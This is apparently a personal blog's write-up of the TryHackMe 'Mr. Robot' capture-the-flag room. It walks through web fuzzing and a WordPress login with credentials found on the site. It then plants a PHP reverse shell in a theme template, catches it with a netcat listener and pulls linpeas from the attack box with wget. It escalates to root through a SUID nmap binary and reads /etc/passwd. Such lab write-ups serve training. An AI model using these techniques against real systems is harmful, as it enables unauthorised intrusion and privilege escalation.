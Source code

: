 ```yaml
---
layout: post
title: 'THM: Mr. Robot | Write-up'
date: '2024-11-12 05:59:33 +0000'
categories: [THM]
tags: [thm, web, fuzzing, privilege escalation, reverse shell, exploitation, enumeration]
comments: false
image: /post-imgs/mr-robot-writeup/mr-robot.jpg
---
```


## Overview

Mr Robot is a room on TryHackMe inspired by the <b><i>Mr. Robot</i></b> TV series. This room introduces players to the fundamentals of penetration testing through a sequence of tasks including, enumeration, exploitation, and privilege escalation.
<br><br>
In this room, we're required to find 3 flags. Let's get started! <br>

![haxor](/haxorman.gif)
<br>

## Enumeration

Let's start with a typical nmap scan. 

![mr-robot](/post-imgs/mr-robot-writeup/mrrobot-1.png)

Scanning the target with Nmap reveals three open TCP ports. On port 22 SSH is running, on port 80, an Apache web server, and an Apache web server with SSL on port 443. We can begin enumerating the subdomains of the web server on port 80 by fuzzing. I used ffuf. <br>
`ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://<target ip>/FUZZ -t 100`

![mr-robot](/post-imgs/mr-robot-writeup/mrrobot-2.png)

From the output, we see a lot of interesting directories. Since I fell into a rabbit hole, I will only be showing directories that are relevant in getting the flags.

/robots.txt gave us the first flag and a wordlist. (Reading through the wordlist, it seems to me that it was intended to be used for fuzzing directories, I didn't use it but you can try fuzzing using this wordlist.)

![mr-robot](/post-imgs/mr-robot-writeup/mrrobot-3.png)

You can download these files using wget. 

![mr-robot](/post-imgs/mr-robot-writeup/mrrobot-4.png)
<br>
![mr-robot](/post-imgs/mr-robot-writeup/mrrobot-5.png)

Heading over to /license shows us a string encoded in base64. Decoding this will give us a credential to somewhere. (I censored it so you can try doing this process yourself).

![mr-robot](/post-imgs/mr-robot-writeup/mrrobot-6.png) 
![mr-robot](/post-imgs/mr-robot-writeup/mrrobot-7.png)

In /wp-login we found a wordpress login page. Let's try logging in using the credentials we found earlier.

![mr-robot](/post-imgs/mr-robot-writeup/mrrobot-8.png)

We're in. :)

![mr-robot](/post-imgs/mr-robot-writeup/mrrobot-9.png)

## Exploitation

Head over to Appearance > Editor > Footer.php ( You can also try to find and test each template file and see which files will work for our reverse shell.)

If you're unsure which reverse shell you're going to use, download or copy [this](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). Just make sure to change the ip and port accordingly. Replace the code in the template file with the reverse shell and click update changes. 

![mr-robot](/post-imgs/mr-robot-writeup/mrrobot-10.png)

Now setup a netcat listener on your attack box. `nc -nvlp <port>`

Execute the reverse shell by accessing the template file in the url field.

![mr-robot](/post-imgs/mr-robot-writeup/mrrobot-11.png)

Go back to your attack box.

![mr-robot](/post-imgs/mr-robot-writeup/mrrobot-12.png)

We're in :)(2). Now we can do local enumeration and look for flags. <br>

Looking into the users of this system `cat /etc/passwd` we found a user with higher privilege.

![mr-robot](/post-imgs/mr-robot-writeup/mrrobot-13.png)

We found the 2nd flag on /home/robot directory but unfortunately with can't access it using this account. We also found a credential for the user robot. (I didn't crack this hash instead I went straight to getting root.) 

![mr-robot](/post-imgs/mr-robot-writeup/mrrobot-14.png)<br>
![mr-robot](/post-imgs/mr-robot-writeup/mrrobot-15.png)

## Privilege Escalation

We can use [linpeas.sh](https://github.com/peass-ng/PEASS-ng/releases/tag/20241101-6f46e855) to further enumerate the machine for possible privilege escalation attack vectors. <br>

Setup a python server hosting the directory containing linpeas.sh. 
![mr-robot](/post-imgs/mr-robot-writeup/mrrobot-16.png)

On the target machine, download the linpeas.sh file into the /tmp directory using wget. <br> `wget http://<attack-box-ip>/linpeas.sh` <br>
Give the file executable permissions and run it. <br>
![mr-robot](/post-imgs/mr-robot-writeup/mrrobot-17.png)

Looking through the linpeas output, we found some interesting binaries with SUID bit set that has root permissions. 

![mr-robot](/post-imgs/mr-robot-writeup/mrrobot-18.png)

Alternatively, you can use the following command to look for binaries that can run commands as root.

![mr-robot](/post-imgs/mr-robot-writeup/mrrobot-19.png)

Now, we will be focusing on the binary Nmap. Head over to [GTFOBins](https://gtfobins.github.io/) and search nmap. In the Shell section, we can see that Nmap versions 2.02 to 5.21 has an interactive mode.

![mr-robot](/post-imgs/mr-robot-writeup/mrrobot-20.png)

Let's check the version of the nmap on the target machine.

![mr-robot](/post-imgs/mr-robot-writeup/mrrobot-21.png)

It's still in range. We can now run the command above and see if we can get a root shell. In the Nmap interactive mode, you need to add an exclamation mark before the command.

![mr-robot](/post-imgs/mr-robot-writeup/mrrobot-22.png){: height="100" width="200" }

We're in :)(3). Now, that we're root, we can now access the 2nd flag located in /home/robot and the 3rd flag in /root. The cd command isn't available in the interactive mode so we will be using the ls command and cat command to access the flag files. I won't be showing the flags to not spoil it for you. 

![mr-robot](/post-imgs/mr-robot-writeup/mrrobot-23.png){: height="100" width="200" }<br>
![mr-robot](/post-imgs/mr-robot-writeup/mrrobot-24.png){: height="100" width="200" }<br>

<i><b>Types aggressively, Access granted, Smirks</b></i><br>
<b>We're in.</b>

![mr-robot](/post-imgs/mr-robot-writeup/mrrobot-werein.gif){: height="500" width="500" }
